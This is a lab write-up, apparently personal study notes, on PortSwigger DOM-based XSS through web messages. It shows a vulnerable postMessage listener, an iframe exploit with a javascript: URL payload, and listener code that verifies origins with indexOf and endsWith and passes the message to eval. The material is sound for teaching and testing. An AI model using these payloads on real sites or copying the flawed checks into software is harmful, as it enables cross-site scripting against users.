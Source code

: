 ### Lab: DOM XSS using web messages and a JavaScript URL

This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function. 

The lab use the following script:
```html
<script>
  window.addEventListener('message', function(e) {
      var url = e.data;
      if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
          location.href = url;
      }
  }, false);
</script>
```
The above script listens for `postMessage` events and redirects the page (`location.href = url;`) based on the received message. This is a vulnerability because it allows an attacker to force a user to visit an arbitrary URL, leading to open redirect attacks or even phishing.

For example, this script will send the victim to another website:
```HTML
<iframe 
src="https://0a780042047e7db6806d539200d5005a.web-security-academy.net/" 
onload="this.contentWindow.postMessage('https://nglong05.github.io','*')">
```

To solve the lab, change the **message** to 
```
javascript:print()//http:
```
> location.href = "javascript:print()" executes the JavaScript code instead of navigating to a new page.
### Origin verification

Even if an event listener does include some form of origin verification, this verification step can sometimes be fundamentally flawed. For example, consider the following code:
```js
window.addEventListener('message', function(e) {
    if (e.origin.indexOf('normal-website.com') > -1) {
        eval(e.data);
    }
});
```
The indexOf method is used to try and verify that the origin of the incoming message is the **normal-website.com** domain. However, in practice, it only checks whether the string "**normal-website.com**" is contained anywhere in the origin URL. As a result, an attacker could easily bypass this verification step if the origin of their malicious message was **http://www.normal-website.com.evil.net**, for example.

The same flaw also applies to verification checks that rely on the **startsWith()** or **endsWith()** methods. For example, the following event listener would regard the origin **http://www.malicious-websitenormal-website.com** as safe:
```js
window.addEventListener('message', function(e) {
    if (e.origin.endsWith('normal-website.com')) {
        eval(e.data);
    }
});
```
### Lab: DOM XSS using web messages and JSON.parse
